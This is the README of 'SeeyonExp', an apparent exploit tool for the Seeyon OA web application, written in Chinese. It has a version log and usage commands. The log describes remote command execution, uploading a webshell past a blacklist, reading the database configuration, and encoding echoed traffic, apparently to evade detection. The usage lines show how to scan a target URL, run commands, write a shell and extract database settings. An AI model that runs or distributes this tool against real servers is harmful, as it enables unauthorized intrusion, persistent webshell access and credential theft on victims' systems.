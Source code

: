 # SeeyonExp

### 0x00 开发日志

V0.7	增加识别版本后无损检测漏洞功能，有那么点漏扫的意思

V0.6	增加数据库配置文件读取功能

V0.5	增加回显流量加密功能，Base64与ascii结合，Base65

V0.4	解决命令执行for循环无法执行for之后Java代码的bug，分号的神奇作用

v0.3	增加文件上传功能，Base64不编码写入不了，黑名单校验

V0.2	命令可以在windows与Linux下执行，并支持https

V0.1	根据POC写出初步利用，可以执行命令，但是仅在windows与http下

### 0x01 使用方法

无损检验是否存在漏洞：java -jar seeyon.jar scan http/https://xxxx.com:port/seeyon
执行命令：java -jar seeyon.jar http/https://xxxx.com:port/seeyon cmd
写入shell：java -jar seeyon.jar http/https://xxxx.com:port/seeyon  shell srcFile desFile
读取数据库配置文件：java -jar seeyon.jar http/https://xxxx.com:port/seeyon dataConf
流量解码：java -jar seeyon.jar decode ciphertext
流量编码：java -jar seeyon.jar encode Plaintext